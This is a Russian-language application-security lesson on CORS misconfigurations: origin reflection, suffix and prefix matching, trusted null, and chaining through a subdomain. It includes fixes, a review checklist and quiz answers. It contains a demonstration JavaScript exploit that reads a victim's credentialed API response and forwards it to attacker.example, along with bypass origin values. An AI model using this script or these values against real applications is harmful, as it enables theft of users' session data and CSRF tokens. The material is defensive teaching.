

# Мисконфигурации CORS как вектор доступа

В одном приложении список доверенных origin сверяли концом строки: адрес,
который кончается на `example.com`, считался своим, и конфигурацию не
приходилось править под каждый новый поддомен. Затем пользователь `anna`,
вошедший в приложение, открыл страницу чужого домена `notexample.com`,
и из её браузера ушёл такой запрос:

**Запрос со страницы атакующего**

```http
GET /api/me HTTP/1.1
Host: app.example.com
Origin: https://notexample.com
Cookie: session=a91Vt
```

**Ответ**

```http
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://notexample.com
Access-Control-Allow-Credentials: true
Content-Type: application/json

{"login":"anna","email":"anna@example.com","csrf":"9f2b41c8"}
```

Cookie сессии приложил сам браузер, потому что скрипт включил режим
учётных данных из темы `cors`. Приложение ответило штатно, потому что
сессия настоящая, а точка `/api/me` открыта её владельцу. Но ответ
прочитал не сайт `app.example.com`, а скрипт с чужого домена из того же
браузера: это позволили два заголовка разрешения в ответе.

Вместе с логином и почтой уехало поле `csrf` — токен, которым приложение
защищает формы от подделки запроса. Такой токен сервер выдаёт своей
странице и ждёт обратно с каждым изменяющим запросом. Токен в чужих руках
означает, что атакующий получил не только чтение, но и запись.

## Что здесь произошло

О границах темы. Механизм CORS и канон его настройки разобраны в теме
`cors`, а запрет на чтение чужого ответа — в теме `same-origin-policy`,
и здесь они не повторяются. Дальше по маршруту разбирается и механизм
подделки запросов. Эта тема отвечает на другой вопрос: что именно
получает атакующий с ошибки в списке доверенных origin и почему ошибка
дороже отсутствия списка. В работе проверяющего вопрос тот же самый: кому
выдано разрешение и вместе с чем.

Напомним, что именно ослабляет CORS. Политика одного источника разрешает
скрипту отправить запрос куда угодно и запрещает прочитать ответ. CORS
снимает именно запрет на чтение: сервер в ответе называет origin, которому
чтение разрешено. Разрешение выдаёт тот, у кого просят данные, и выдаёт
его по значению из запроса. Поэтому ошибка в настройке — это разрешение,
выданное не тому, и браузер исполняет его законно, потому что выполняет
ровно то, что сказал сервер.

Ничего другого CORS не решает: доступ к точке, права на объект и
подлинность сессии остаются за приложением. Как запрос с чужой страницы
доходит до данных пользователя, показывает схема.



**Описание схемы.** Схема читается сверху вниз и показывает обмен из
введения. Страница атакующего отдаёт скрипт браузеру жертвы, и дальше
запрос к приложению отправляет сам браузер, поэтому cookie сессии
прикладывается штатно. Приложение отвечает вошедшему пользователю и
добавляет два заголовка разрешения. Браузер сравнивает origin страницы
с origin из разрешения, видит совпадение и отдаёт тело скрипту, а тот
отправляет прочитанное на сервер атакующего. Заметьте, что ни один узел
не сломан: каждый выполнил ровно то, что ему сказали, а данные всё равно
ушли на сторону.

Прежде чем идти дальше, ответьте себе на два вопроса. Что из случившегося
исчезло бы, сверяй приложение пришедший origin со списком целиком? А что
осталось бы, если из ответа убрать поле с токеном?

**Зачем это в работе AppSec-инженера.** Заголовок
`Access-Control-Allow-Origin` вы ставили сами, потому что фронтенд лежал
на другом адресе и браузер отказывался отдавать ответ скрипту. Чтобы не
вести список, в разрешение возвращали то, что пришло в `Origin`; чтобы
список всё же был, сверяли его концом строки. Настройка выглядит как
задача про заголовки и оценивается как низкая находка, пока не показан
результат. Результат — скрипт на чужой странице, читающий профиль, ключ
API и токен защиты от подделки запроса. Между такой настройкой и утечкой
данных всех пользователей лежат десять строк демонстрации, и собрать их —
работа ревьюера.

**Откуда это взялось.** Политика одного источника разрешает отправить
запрос куда угодно и запрещает прочитать ответ. Приложениям понадобилось
обратное: фронтенд на одном адресе, API на другом. Ослабление сделали
управляемым — сервер называет origin, которому доверяет. Ошибка появилась
вместе с решением, потому что список доверенных надо вести, а ведение
стоит работы. Его и подменяют отражением пришедшего значения: выглядит
это как выдача разрешения тому, кто уже пришёл, а работает как разрешение
всем.

## Как это работает

Приём из введения состоит из трёх условий. Первое: ответ несёт что-то
ценное, например профиль или ключ. Второе: разрешение читать выдаётся
origin атакующего. Третье: разрешение выдано вместе с заголовком
`Access-Control-Allow-Credentials: true`, поэтому браузер приложит cookie
жертвы. Ответ `/api/me` из введения давал все три условия сразу.

Скрипт на странице атакующего решает три задачи: заставить браузер
приложить cookie жертвы, дождаться момента, когда сервер разрешит чтение,
и вынести прочитанное на узел атакующего. Запрос в листинге отправлен
через `XMLHttpRequest`, старый браузерный интерфейс запросов из скрипта.
В теме `cors` режим учётных данных показан на `fetch`, а здесь его ставит
настройка `withCredentials`, и смысл у них один. До чтения выносок найдите
в листинге строку каждой задачи.

```javascript
// УЯЗВИМО — демонстрация приёма, не для продакшена
const url = "https://vulnerable-website.com/sensitive-victim-data";
const req = new XMLHttpRequest();
req.open("get", url, true);
req.withCredentials = true;                      // (1)
req.onload = () => {                             // (2)
  const body = encodeURIComponent(req.responseText);
  location = "//attacker.example/log?d=" + body; // (3)
};
req.send();
```

1. Режим учётных данных включён: браузер приложит cookie жертвы даже к
   запросу на чужой origin, потому что сессия живёт в её же браузере.
2. Обработчик выполняется, только если сервер выдал разрешение читать.
   Без разрешения браузер отдаёт ошибку, и тело скрипту не показывает.
3. Прочитанное кодируется и дописывается в адрес узла атакующего,
   а присвоение `location` отправляет браузер по этому адресу вместе
   с данными.

Ценность добычи задаёт содержимое ответа. Профиль — это утечка. Ключ
API — доступ к другим службам от имени пользователя. Токен защиты от
подделки запроса превращает чтение в запись: с ним атакующий отправляет
изменяющие запросы, которые механизм защиты иначе отверг бы.

### Три ошибки сопоставления

Условие «разрешение выдаётся origin атакующего» достигается ошибкой
в одной строке сверки, и ошибки этой строки три. Разберём их по порядку:
сначала отражение без сверки, потом сверка по краю строки, потом доверие
значению `null`.

Первая ошибка — отражение: значение из запроса возвращается в разрешение
без сверки со списком, и разрешение получает любой origin. Заводят
отражение, чтобы не вести список вовсе. Это как охранник, который
спрашивает у посетителя «вы к кому?» и выписывает пропуск на любое
названное имя. Соответствие такое: посетитель — страница с заголовком
`Origin`, пропуск — заголовок разрешения в ответе, список жильцов — список
доверенных origin. Где аналогия ломается: охранник хотя бы видит
посетителя, а сервер видит строку, которую клиент написал себе сам.

Вторая ошибка — сверка по краю строки. Список ведут «по всем поддоменам»
и проверяют окончанием: адрес, кончающийся на `normal-website.com`,
доверенный. Атакующий регистрирует `hackersnormal-website.com` и проходит,
потому что конец совпал. Симметричная ошибка — проверка началом: доверяют
всему, что начинается с `normal-website.com`, и атакующий берёт
`normal-website.com.evil-user.net`. Домен `notexample.com` из введения
устроен так же: `example.com` в конце есть, а отношения к доверенному
домену нет. Родственный вариант — сверка вхождением подстроки: она примет
и адрес, где доверенное имя встретилось в середине, например
`evil-user.net/?next=normal-website.com`.

Сверка по краю похожа на консьержа, который узнаёт жильца по окончанию
фамилии: «кончается на -ов — проходите». По этому правилу пройдут и
Смирнов, и Козлов. Где аналогия ломается: у фамилии есть носитель с лицом,
а домен атакующий выбирает при регистрации. Подогнать имя под нужное
окончание ничего не стоит.

Третья ошибка — доверие значению `null`. У документа может не быть
собственного origin, и тогда браузер пишет в запросе `Origin: null`. Так
бывает при перенаправлении между origin, у документа, собранного из строки
(схема `data:`), у страницы со схемой `file:` и у документа в песочнице
`iframe`.

Песочница — это режим встроенной рамки, где документ работает, но лишён
своего origin, — как гость, у которого на входе забрали пропуск. Граница
сравнения рядом: гостя без пропуска не пустят никуда, а значение `null`
из доверенного списка пускает везде. В списки `null` попадает «для
локальной разработки», а получить его атакующий может сам: достаточно
встроить свою страницу в `iframe` с атрибутом `sandbox`.

### Цепочка через доверенный поддомен

Отдельный случай — правильный список, в котором стоит поддомен со своей
уязвимостью. Внедрением скрипта называют дефект, при котором чужой текст
попадает в страницу сайта и выполняется как код этой страницы. Этап
разбирает его отдельно дальше по маршруту. Это как объявление на общей
доске в подъезде. Доска принадлежит дому, текст на ней написал посторонний,
а прочитавший выполняет написанное как распоряжение дома. Где аналогия
ломается: жилец может не послушаться, а браузер выполняет скрипт страницы
всегда.

Скрипт, внедрённый на `sub.example.com`, работает в origin из списка
доверенных, и запросы с него получают разрешение законно. CORS здесь
ничего не нарушает: он выполняет ровно то, что настроено. Меняется цена
уязвимости на второстепенном поддомене: она становится ценой доступа
к данным основного приложения. Доверенный поддомен похож на соседний
подъезд, чей ключ подходит и к вашему: разбитое окно в соседнем перестаёт
быть его частной бедой. Где сравнение ломается: окно само ничего не
делает, а внедрённый скрипт работает сам, с правами страницы.

## Как это выглядит в коде

Механику настройки читайте в теме `cors`. Со стороны вектора доступа
ревьюер задаёт три вопроса подряд. Первый: кому выдаётся разрешение,
то есть откуда берётся его значение. Второй: выдаётся ли оно вместе
с учётными данными. Третий: что лежит в ответе, который разрешено читать.
Строка, впустившая `notexample.com` из введения, выглядит так — до чтения
выносок найдите в ней место, где решение принято неверно:

```python
# УЯЗВИМО — демонстрация, не для продакшена
origin = request.headers.get("Origin", "")
if origin.endswith("example.com"):                       # (1)
    resp.headers["Access-Control-Allow-Origin"] = origin  # (2)
    resp.headers["Access-Control-Allow-Credentials"] = "true"
```

1. Сверка по краю строки: `endswith` смотрит на конец адреса, и домен
   `notexample.com` проходит проверку, потому что его конец совпадает
   с доверенным.
2. Значение из запроса возвращается в разрешение. Вместе со следующей
   строкой это открывает чтение ответа скрипту с любого домена, чьё имя
   кончается на `example.com`.

Обёртка, которая выглядит защитой, — проверка регулярным выражением.
Выражение `https://.*\.example\.com` читается как «протокол, любые
символы, точка, example.com». Если выражение не привязано к концу строки,
оно сопоставляется с началом адреса и не смотрит, что дальше. Адрес
`https://evil.example.com.attacker.net` проходит по началу, а хвост
`.attacker.net` остаётся непроверенным.

Вторая ошибка того же свойства — незаэкранированная точка в литеральной
части. В выражении `https://app.example.com` обе точки примут любой
символ, и адрес `https://appXexampleYcom` тоже окажется «доверенным».
Якорь конца строки и экранирование точек чинят обе ошибки, но надёжнее
сравнение со списком целиком: оно не зависит от аккуратности выражения.

Есть и ложное срабатывание темы: `Access-Control-Allow-Origin: *` без
учётных данных на публичном ответе. Звёздочка без заголовка
`Access-Control-Allow-Credentials: true` не даёт чтения под сессией
пользователя. ASVS v5.0-3.4.2 требует в этом случае одного: убедиться,
что ответ не несёт чувствительных сведений. На этом всё.

## Как защититься

Канон настройки разобран в теме `cors`. Пришедшее значение сверяется
со списком доверенных origin целиком, заголовок `Vary: Origin`
выставляется за пределами условия, а значение `null` в список не входит.
Сверка целиком отвергает `notexample.com` из введения на первом же
сравнении, потому что строка целиком не равна ни одной строке списка.
Со стороны вектора доступа к канону добавляются два вопроса, и оба — про
содержимое, а не про заголовки.

Первый вопрос: что лежит в ответе, который разрешено читать. Ключи,
токены и чужие идентификаторы убираются из ответа независимо от списка
доверенных, потому что разрешение читать — не повод отдавать лишнее.
В ответе из введения лишним полем был токен защиты от подделки запроса.
Без него логин и почта остались бы утечкой, но чтение не превратилось
бы в запись. Исправленная точка выглядит так:

```python
# Исправленный вариант
ALLOWED = {"https://app.example.com"}

def api_me(request, resp, user):
    origin = request.headers.get("Origin", "")
    if origin in ALLOWED:                                 # (1)
        resp.headers["Access-Control-Allow-Origin"] = origin
        resp.headers["Access-Control-Allow-Credentials"] = "true"
    return {"login": user.login, "email": user.email}     # (2)
```

1. Сравнение со списком целиком: `in` по множеству сравнивает строку
   полностью, и `https://notexample.com` отвергается первым же сравнением.
2. В ответе остались только нужные поля: токен защиты от подделки запроса
   сюда больше не попадает, и разрешение читать не превращается
   в разрешение писать.

Канон про `Vary: Origin` и кеш здесь не повторяется, он лежит в теме
`cors`. Этот фрагмент показывает то, что добавляет вектор доступа: состав
ответа, который разрешено читать.

Второй вопрос: не заменяет ли CORS проверку прав. Разрешение читать
ответ — не авторизация, потому что браузер применяет его после того, как
сервер запрос уже выполнил. Если чувствительное действие вызывается
запросом без предварительного круга, например отправкой обычной формы,
список origin его не остановит. Действие совершится, а читать ответ
атакующему и не нужно (ASVS v5.0-3.5.2).

Разрешение CORS похоже на пропуск в читальный зал: он решает, кому
покажут книгу, а не кому её выдадут на дом. Соответствие такое: зал —
чтение ответа, выдача на дом — изменяющее действие, вторая стойка
с билетом — проверка прав в приложении. Где аналогия ломается:
в библиотеке стойку проходят после зала, а на сервере действие
выполняется до того, как браузер посмотрит в разрешение.

**Границы применимости.** Список доверенных origin закрывает чтение
ответа чужой страницей и не закрывает ничего внутри доверенного origin.
Цепочка через поддомен из раздела выше живёт именно в этой границе. Цена
ведения списка — правка при каждом новом поддомене фронтенда, цена ошибки
в нём — доступ к данным всех пользователей.

## Частая ошибка

Утечка из введения началась с одной строки сверки, и в отчёте она
называется мисконфигурацией. Отсюда представление: настройка CORS
относится к заголовкам и браузерам, поэтому её ошибки — низкая находка
про конфигурацию. Прежде чем читать дальше, решите: согласны ли вы
с такой оценкой?

**Ошибка в CORS даёт чтение чужих данных под сессией жертвы.** Механизм
решает единственный вопрос — можно ли чужой странице прочитать ответ,
и ответ этот приходит с cookie пользователя. Цепочка «про заголовки,
значит, про конфигурацию, значит, низкая оценка» ломается на последнем
звене: оценивается не слой, где случилась ошибка, а то, что она открывает.

Контрпример. Приложение отражает `Origin` и выдаёт
`Access-Control-Allow-Credentials: true` на точке `/api/me`. Страница
атакующего читает оттуда почту, роль и токен защиты от подделки запроса
каждого, кто её открыл. Записи в отчёте «мисконфигурация CORS» и «утечка
персональных данных всех посетителей» описывают одну строку настройки.

## Чеклист для ревью

1. Проверьте, что значение `Access-Control-Allow-Origin` задано приложением либо
   сверено со списком доверенных origin целиком (ASVS v5.0-3.4.2).
2. Проверьте, что сверка origin не делается по началу строки, по концу строки или
   по вхождению подстроки.
3. Проверьте, что значение `null` не входит в список доверенных origin.
4. Проверьте, что `Access-Control-Allow-Credentials: true` выдаётся только тем
   origin, которым разрешено читать ответ с учётными данными.
5. Проверьте, что ответы, открытые для чтения из другого origin, не несут ключей,
   токенов и чужих идентификаторов.
6. Проверьте, что чувствительное действие нельзя вызвать запросом, который не
   порождает предварительного круга (ASVS v5.0-3.5.2).
7. Проверьте, что поддомены из списка доверенных проверены на внедрение скрипта:
   их origin получает доступ наравне с основным.

## Попробуй сам

Возьмите точку API знакомого приложения, которая отдаёт что-нибудь про
пользователя, и отправьте к ней запрос с подставленным заголовком `Origin`.
Повторите четыре раза: с чужим доменом, с доменом, к которому приписан
префикс, с доменом, к которому приписан суффикс, и со значением `null`.
Каждое значение ловит свою ошибку из раздела «Как это работает». Чужой
домен ловит отражение, приписанный префикс — сверку окончанием,
приписанный суффикс — сверку началом, а `null` — доверие к значению без
origin.

Одна подсказка: смотрите на оба заголовка, `Access-Control-Allow-Origin`
и `Access-Control-Allow-Credentials`. Без второго заголовка чтение под
сессией жертвы не работает, даже если первый заголовок прислал ваш origin.

**Критерий выполнения** наблюдаемый: таблица из четырёх строк с присланным
`Origin` и двумя полученными заголовками. Отдельной строкой записано,
какие из четырёх значений приложение приняло.

## Проверь себя

1. Строка сверки из другого приложения:

   ```python
   origin = request.headers.get("Origin", "")
   if origin.startswith("https://app.example.com"):
       resp.headers["Access-Control-Allow-Origin"] = origin
       resp.headers["Access-Control-Allow-Credentials"] = "true"
   ```

   Каким origin её обойдёт атакующий и что он получит вместе с разрешением?

2. Точка `/api/me` отражает пришедший `Origin` в разрешение и выдаёт
   `Allow-Credentials: true`. Какую починку вы выберете?

   А. Проверять, что пришедший origin оканчивается на доверенный домен: так
      список вести не придётся.

   Б. Сверять origin со списком доверенных целиком и убрать из ответа токены и
      ключи, которые там не нужны.

   В. Оставить в списке доверенных значение `null` для локальной разработки —
      настоящим сайтам оно не положено.

3. Почему разрешение CORS не заменяет проверку прав на действие, которое
   вызывается запросом без предварительного круга?

4. Не запуская, предскажите, какие строки выведет сверка из первого вопроса и
   что в выводе значит вторая.

   ```python
   def allowed(origin):
       return origin.startswith("https://app.example.com")

   for o in ["https://app.example.com", "https://app.example.com.evil.net"]:
       print(o, "->", "разрешён" if allowed(o) else "отказ")
   ```

5. Возврат к теме `same-origin-policy`: что именно запрещает политика и какую
   из её частей CORS ослабляет?
6. Возврат к теме `cors`: чем предварительный запрос отличается от основного и
   при каких типах содержимого его не бывает?

<details markdown="1">
<summary>Ответ 1</summary>

1. Сверка по началу строки примет `https://app.example.com.evil.net`: чужой
   домен начинается с доверенного. Вместе с `Allow-Credentials: true`
   разрешение открывает чтение ответа под сессией жертвы: браузер прикладывает
   её cookie, а скрипт на странице атакующего читает тело. Симметричная ошибка —
   сверка окончанием, она принимает `hackersnormal-website.com`.

</details>

<details markdown="1">
<summary>Ответ 2: разбор вариантов</summary>

2. Верный ответ — Б.

   А. Сверка по концу строки принимает любой домен, оканчивающийся на
      доверенный: атакующий регистрирует `hackersnormal-website.com` и получает
      разрешение законно.

   Б. Список целиком отвергает чужой домен на первом сравнении, а вынос
      токенов из ответа снимает вторую половину вреда: разрешение читать —
      не повод отдавать лишнее.

   В. `null` получают намеренно — достаточно `iframe` с атрибутом `sandbox`.
      «Для локальной разработки» в списке означает «для любой страницы в
      песочнице».

</details>

<details markdown="1">
<summary>Ответ 3</summary>

3. Разрешение CORS касается чтения ответа и применяется после того, как сервер
   запрос уже выполнил. Действие без предварительного круга совершится независимо
   от списка origin — читать ответ атакующему и не нужно (ASVS v5.0-3.5.2).

</details>

<details markdown="1">
<summary>Ответ 4</summary>

4. Разрешены обе строки, и вторая — чужой домен. Проверка прогоном файла
   `orig.py` с этим кодом:

   ```bash
   python3 orig.py
   ```

   ```text
   https://app.example.com -> разрешён
   https://app.example.com.evil.net -> разрешён
   ```

   Вторая строка значит, что сверка сравнивала край строки, а не сам origin:
   зарегистрированный атакующим домен получил разрешение наравне с настоящим.

</details>

<details markdown="1">
<summary>Ответ 5</summary>

5. Политика разрешает отправить запрос в чужой origin и запрещает прочитать
   ответ. CORS ослабляет вторую часть — чтение ответа, — и только её.

</details>

<details markdown="1">
<summary>Ответ 6</summary>

6. Предварительный запрос `OPTIONS` спрашивает разрешения до основного и сам
   данных не несёт; браузер шлёт его перед методами вроде `PUT` и запросами со
   своими заголовками. Его не бывает у `GET`, `HEAD` и `POST` с типами
   `text/plain`, `application/x-www-form-urlencoded`, `multipart/form-data`.

</details>

## Источники

1. PortSwigger Web Security Academy, «Cross-origin resource sharing (CORS)»;
   реестр `ps-cors`. Разделы: Server-generated ACAO header from client-specified
   Origin header, Errors parsing Origin headers, Whitelisted null origin value,
   Exploiting XSS via CORS trust relationships.
   <https://portswigger.net/web-security/cors>
2. MDN Web Docs, «Cross-Origin Resource Sharing (CORS)», обновлено 30 ноября
   2025; реестр `mdn-cors`. Разделы: Requests with credentials, The HTTP
   response headers.
   <https://developer.mozilla.org/en-US/docs/Web/HTTP/Guides/CORS>

Каркас этапа: `owasp-asvs-5-document` (ASVS v5.0.0), `owasp-wstg-42`,
`owasp-top10-2025`; якоря подраздела: `ps-access-control`,
`owasp-cs-authorization`. Наследуются всеми темами и отдельной строкой не
повторяются.

**Скоропортящийся слой.** Список случаев, в которых браузер шлёт `null`,
зависит от реализации и пополняется. Страница Web Security Academy — живая
платформа без даты, и приёмы на ней меняются.

**Маркеры уверенности.** Отражение `Origin`, ошибки сверки по началу и концу
строки, значение `null` и цепочка через доверенный поддомен — **по
документации** (Web Security Academy, открыта лично 2026-08-23). Поведение
запросов с учётными данными — **по документации** (MDN, открыт лично
2026-08-23). Требования 3.4.2 и 3.5.2 сверены с текстом ASVS v5.0.0 (открыт
лично 2026-08-23). Скрипт демонстрации **не запускался**: стенда с двумя origin
под эту тему не собиралось, механика проверена на стенде темы
`same-origin-policy`. Строки сверки из раздела «Как это выглядит в коде»
и листинг из вопроса 4 прогнаны локально 2026-10-03, Python 3.14.7. Прогоны
совпали с текстом дословно: `endswith` принял `https://notexample.com`,
выражение без якоря конца строки приняло `https://evil.example.com.attacker.net`,
незаэкранированные точки приняли `https://appXexampleYcom`, подстрока
нашлась в адресе `evil-user.net/?next=normal-website.com`.
